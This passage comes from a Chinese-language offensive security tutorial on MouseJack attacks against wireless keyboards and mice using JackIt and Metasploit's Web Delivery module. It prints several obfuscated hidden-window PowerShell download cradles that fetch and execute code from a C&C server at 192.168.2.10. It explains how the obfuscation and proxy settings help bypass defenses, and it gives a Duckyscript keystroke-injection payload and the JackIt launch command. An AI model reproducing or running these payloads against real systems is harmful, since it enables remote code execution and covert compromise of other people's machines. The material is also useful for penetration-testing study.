 ```
powershell.exe -nop -w hidden -c $v=new-object net.webclient;$v.proxy=[Net.WebRequest]::GetSystemWebProxy();$v.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $v.downloadstring('http://192.168.2.10/a');
```

并不像一个普通的PowerShell下载cradle，不是么？该模块会生成一个随机变量（在本示例中为$ v），并使用它帮助混淆cradle，从而绕过某些防御措施。此外，这些命令可以使cradle看起来像是使用了代理，这将有助于攻击载荷成功在互联网上放出（如果你的C&amp;C服务器服务器基于云服务，可能会起到帮助）。

我们完全能够在缩短攻击载荷字符串的情况下，仍然使其具备功效，但我们必须权衡其中利弊。如果我们的C&amp;C服务器就存在于目标网络内部，可以删除与代理相关的命令，同时继续保留一些混淆代码以保护cradle完整性。再或者，如果我们真的需要最短的字符串，可以去掉所有的混淆代码，恢复其成为正常的下载cradle。所有的这些最终归结于，你是选择防止用户察觉，还是躲避对方主机的防护措施。以下是每种修改方法的示例：



```
powershell.exe -nop -w hidden -c $v=new-object net.webclient;IEX $v.downloadstring('http://192.168.2.10/a');
powershell.exe -nop -w hidden -c IEX(new-object net.webclient).downloadstring('http://192.168.2.10/a');
```

专业提示：如果你对PowerShell混淆技术感兴趣，请关注@danielhbohannon的文章！

现在，我们已经建立好C&amp;C服务器，并安放完恶意字符串。我们可以在之前阶段修改模板中的Duckyscript，只需确认做好本地备份：



```
GUI r
DELAY 300
STRING powershell.exe -nop -w hidden -c IEX(new-object net.webclient).downloadstring('http://192.168.2.10/a');
DELAY 300
ENTER
ENTER
```

使用JackIt进行漏洞利用或是监视，只需以下代码标签调用Duckyscript文件：

```
/opt/jackit/$ ./jackit.py --script ducky-script.txt
```

在下面的截图中，可以看到我们发现了两个经由JackIt指纹识别的无线外设。当我们需要启动鼠标劫持攻击时，只需按下CTRL-C：

 [![](https://p5.ssl.qhimg.com/t015e0e65339cdf2400.png)](https://p5.ssl.qhimg.com/t015e0e65339cdf2400.png)

我们可以选择单独的设备，或者多个设备，再或者被发现的所有设备。一旦我们选择完毕并按下ENTER键，定向攻击便会启动。根据目标设备的品牌，你将在脚本运行完成之前，从屏幕上看到很多延迟10ms的消息。当看到以下消息时，你就能得知JackIt已经运行完成：[+]已完成所有攻击。

让我们来查看一下Web Delivery模块，看看是否有攻击取得成功：

 [![](https://p4.ssl.qhimg.com/t015f17f2dc864ceba9.png)](https://p4.ssl.qhimg.com/t015f17f2dc864ceba9.png)

看起来我们实现了一次成功攻击！虽然我们尝试对两个目标发动鼠标劫持攻击，但只有一个成功响应。之所以其中一个攻击尝试会取得失败，我们会简要讨论造成原因。

现在，我们已经成功结合Metasploit的Web Delivery模块与JackIt入侵一处无线外设。我们实际上还有其他框架可以利用，制作类似的单行PowerShell，包括[Cobalt Strike](https://www.cobaltstrike.com/)和[Empire](https://www.powershellempire.com/)。可以简单讲一讲Cobalt Strike，我在进行鼠标劫持时，还喜欢使用一种非PowerShell的攻击载荷。
